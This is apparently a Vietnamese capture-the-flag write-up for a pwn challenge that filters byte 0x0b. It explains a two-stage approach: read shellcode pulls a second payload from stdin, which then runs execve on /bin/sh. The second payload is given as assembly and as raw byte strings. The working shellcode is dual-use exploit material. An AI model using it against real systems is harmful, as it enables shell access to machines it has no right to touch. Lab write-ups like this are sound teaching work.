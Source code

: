 # Solution

shellcode bị chặn byte 0xb nên ko thể gọi syscall execve trực tiếp được. Có thể viết self-modifying shellcode để gọi syscall execve. Mình sẽ viết shellcode để read thêm shellcode mới từ stdin, shellcode này sẽ ghi ngay sau shellcode cũ, sau khi read xong sẽ thực thi shellcode mới. Shellcode mới sẽ gọi syscall execve để thực thi `/bin/sh`.

```
    xor ebx, ebx
    push 0x804a073
    pop ecx
    xor edx, edx
    mov dh, 0x100 >> 8
    xor eax, eax
    add eax,3
    int 0x80
```

`31DB6873A004085931D2B60131C083C003CD80`

shellcode để thực thi `/bin/sh`

```
jmp    0xd
pop    ebx
xor    eax,eax
xor    ecx,ecx
xor    edx,edx
mov    al,0xb
int    0x80
call   0x2
das
bound  ebp,QWORD PTR [ecx+0x6e]
das
jae    0x81
```

`\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`

![Alt text](image.png)

từ bài 1-4  dùng một cách giống nhau được.